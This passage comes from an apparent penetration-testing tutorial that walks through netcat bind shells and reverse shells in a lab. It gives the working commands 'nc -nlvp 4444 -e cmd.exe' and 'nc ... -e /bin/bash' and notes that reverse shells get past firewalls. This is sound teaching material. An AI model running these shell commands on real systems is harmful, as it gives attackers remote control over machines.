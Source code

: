 ```bash
offensive@server01:~$ cat incoming.txt
This is an example of sending a file
```

✅ **File transfer was successful!**  

---

### **5. Netcat Bind Shell & Reverse Shell**  

🔹 **Netcat's `-e` option** allows remote command execution, making it useful for penetration testing but also a **security risk**.  

---

#### **5.1 Bind Shell (Windows)**  

1️⃣ **Start a bind shell on a Windows machine (Bob's PC):**  

```bash
C:\Users\offsec> nc -nlvp 4444 -e cmd.exe
```

2️⃣ **Connect from a Kali machine (Alice's PC):**  

```bash
kali@kali:~$ nc -nv 10.11.0.22 4444
```

✅ **Alice gains remote access to Bob's Windows command shell.**  

---

#### **5.2 Reverse Shell (Linux)**  

1️⃣ **Set up a listener on Bob's machine (Windows):**  

```bash
C:\Users\offsec> nc -nlvp 4444
```

2️⃣ **Send a reverse shell from Alice’s Kali machine:**  

```bash
kali@kali:~$ nc -nv 10.11.0.22 4444 -e /bin/bash
```

✅ **Bob now has remote shell access to Alice’s Linux machine!**  


### **6. Understanding Bind Shell vs. Reverse Shell**  

| Feature         | Bind Shell | Reverse Shell |
|----------------|-----------|--------------|
| **Who initiates the connection?** | Attacker connects to target | Target connects to attacker |
| **Firewall bypass?** | ❌ Difficult (firewall may block inbound traffic) | ✅ Easier (firewall allows outbound traffic) |
| **Best used when?** | Attacker has direct access to the target's IP | Target is behind NAT or firewall |

---